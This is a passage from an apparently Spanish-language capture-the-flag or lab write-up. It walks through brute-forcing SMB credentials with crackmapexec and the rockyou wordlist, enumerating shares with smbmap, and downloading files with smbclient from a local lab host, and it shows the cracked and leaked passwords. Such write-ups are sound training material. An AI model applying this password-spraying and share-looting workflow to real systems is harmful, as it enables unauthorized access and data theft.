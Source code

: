 de aqui lo que mas me interesa son los usuarios que se obtienen 

![image](https://github.com/user-attachments/assets/7c076698-a09c-47a9-aa94-4c7093ab8a33)

ya con los usuarios, aplico un ataque de diccionario para intentar conseguir credenciales y poder acceder a los recursos compartidos


```ruby
crackmapexec smb 172.17.0.2 -u itadmin -p /usr/share/wordlists/rockyou.txt |grep -v STATUS_LOGON_FAILURE
```

![image](https://github.com/user-attachments/assets/cedee252-2c5f-4711-ac84-a168d0789fc9)

obtengo credenciales asi que chequeo los recursos compartidos

```ruby
smbmap -u itadmin -p iloveyou1 -H 172.17.0.2
```

![image](https://github.com/user-attachments/assets/ba05c28e-876d-41e2-abd8-2701aea4be89)

```ruby
smbmap -u itadmin -p iloveyou1 -H 172.17.0.2 -r public
```

![image](https://github.com/user-attachments/assets/aec02db8-f81c-408f-9c67-989c269c64ac)

```ruby
smbmap -u itadmin -p iloveyou1 -H 172.17.0.2 -r it_data
```

![image](https://github.com/user-attachments/assets/d08eb99f-1cd8-444d-a5f7-c7f751a49221)

ya observo archivos en los directorios `it_data` & `public` por lo que me los traigo a mi maquina 

```ruby
smbclient //172.17.0.2/it_data -U itadmin%iloveyou1 -c 'get protected.zip' && smbclient //172.17.0.2/it_data -U itadmin%iloveyou1 -c 'get passwd_policy.txt'
```

```ruby
smbclient //172.17.0.2/public -U itadmin%iloveyou1 -c 'get decrypt_hint.txt' && smbclient //172.17.0.2/public -U itadmin%iloveyou1 -c 'get notes.txt'
```

![image](https://github.com/user-attachments/assets/6cc4a18b-064b-4278-a12a-ba9d58ba7769)

ya tengo los archivos en mi maquina si que los reviso:

```ruby
cat decrypt_hint.txt 
Hola equipo,

Como parte de nuestra política de seguridad, recuerden que todas las contraseñas deben cumplir con los siguientes criterios:

- Tener al menos 8 caracteres.
- Incluir al menos una letra mayúscula, una minúscula, un número y un símbolo.
- No utilizar palabras comunes o fáciles de adivinar.

Por ejemplo, para el archivo cifrado en 'confidential', la contraseña es: ExPl0r3.2024

Por favor, asegúrense de seguir estas pautas al establecer nuevas contraseñas. La seguridad de nuestra información depende de ello.

Saludos,
itadmin
```
